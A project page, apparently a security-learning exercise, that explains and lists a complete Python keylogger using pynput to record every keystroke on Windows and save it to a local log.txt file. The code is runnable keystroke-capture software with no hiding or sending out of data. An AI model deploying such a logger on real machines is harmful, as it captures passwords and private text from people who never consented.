 <h1>Keylogger Practice Project</h1>

<h2>Description</h2>
This script uses the pynput library to listen for keyboard events. The on_press function is called whenever a key is pressed, and it appends the pressed key to a global log list. The key is then written to a file called log.txt.
<br />


<h2>Environments Used </h2>

- <b>Windows 11</b>

<h2>Program Code:</h2>

```python
import pynput
from pynput import keyboard

# import necessary modules

# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
    # append the current key to a global variable storing the log
    log.append(current_key)
    # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)

# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```
